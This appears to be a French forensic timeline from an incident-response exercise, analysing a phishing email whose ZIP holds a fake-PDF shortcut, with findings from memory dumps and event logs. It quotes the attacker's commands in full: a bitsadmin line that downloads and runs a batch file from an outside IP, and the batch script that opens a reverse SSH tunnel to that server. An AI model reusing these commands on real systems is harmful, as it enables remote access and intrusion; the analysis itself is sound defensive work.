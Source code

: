 # TIMELINE

## 28/02/2024

### Mail

Mail suspicieux d'Homer Simpson

![alt text](image.png)

Le mail redirige vers une archive zip et non un PDF

`http://13.39.205.164/CV_Homer_SIMPSON.zip`

C'est un serveur WEB qui tourne derrière cette IP.

### Analyse du Dump Mémoire | strings

On retrouve dans les strings une connexion SSH forward, un tunnel est crée entre la machine et le serveur vu précedemment.

```bash
ssh  -o StrictHostKeyChecking=no -f -N -R 1080 tunnel@13.39.205.164 -p 443

-f foreground
-o option -> StrictHostKeyChecking=no
-N pas d'exec de commande
-R port à forwarder
-p port vers lequel on forward
```

Extraction de données ?

### Processus: cmd.exe

On retrouve dans la liste des processus plusieurs cmd.exe

- 1 dumpit (pid 11256)
- 1 Générator de menace (pid 7072)
- 1 soupçoné d'être notre malware (pid 5728)

On retrouve dans la mémoire du cmd, ce que l'on soupçonne d'être le script malveillant (.bat)
`strings pid.5728.dmp | grep "echo off" -A 10 -B 10`

```bat
@echo off
start http://13.39.205.164/CV_Homer_SIMPSON.pdf
start /min ssh -o StrictHostKeyChecking=no -f -N -R 1080 tunnel:tunnel@13.39.205.164 -p 443
wmic process where "name='cmd.exe'" delete
exit
```

wmic process where... doit servir à supprimer instantanément le cmd
Ce programme .bat est probablement télécharge après l'ouverture d'un des fichiers dans l'archive, puisque l'on retrouve cette ligne dans les strings du dump mémoire:

![alt text](image-1.png)

Il y a donc un téléchargement du fichier `autologon.bat` depuis le serveur web et l'execution de celui-ci. Le code retrouvé précedemment est probablement le contenu de ce .bat.

On retrouve également sur la machine un programme étrange du nom de **bInckFhm.exe** au PID 440 que je n'ai pas pu décompilé.

## 29/02/2024

### Analyse evtx

Avec l'outil Chainsaw j'applique des sigma rules pour trier les logs evtx et les exporter en CSV.

On retrouve la création d'un utilisateur: `lisa.simpson`

![alt text](image-2.png)

On cherchant dans les strings, on retrouve la création de cet utilisateur ainsi que l'ajout de ce dernier au groupe "administrateurs"

![alt text](image-3.png)

On retrouve ces informations dans les logs evtx ouvert dans windows.

### Analyse des pièces jointes présentes sur le serveur web

On a pu récupérer les fichiers ZIP et autologon.bat présent sur le serveur WEB.

![alt text](image-4.png)

Le ZIP contient un .lnk qui est un raccourci avec une icone de pdf et il continent également le vrai CV d'Homer Simpson.

Dans le .lnk, on remarque l'execution d'une commande dans un CMD:

![alt text](image-5.png)

```bat
"C:\Windows\System32\cmd.exe" /k "bitsadmin /transfer mydownloadjob /download /priority FOREGROUND "http://13.39.205.164/autologon.bat" "c:\users\public\autologon.bat" && start c:\users\public\autologon.bat && exit"
```

C'est la commande qui télécharge l'autologon.bat. Ce dernier contient le programme suivant:

```bat
@echo off
start http://13.39.205.164/CV_Homer_SIMPSON.pdf
start /min ssh -o StrictHostKeyChecking=no -f -N -R 1080 tunnel:tunnel@13.39.205.164 -p 443
wmic process where "name='cmd.exe'" delete
exit
```

C'est bien le programme que j'avais trouvé hier dans les strings.
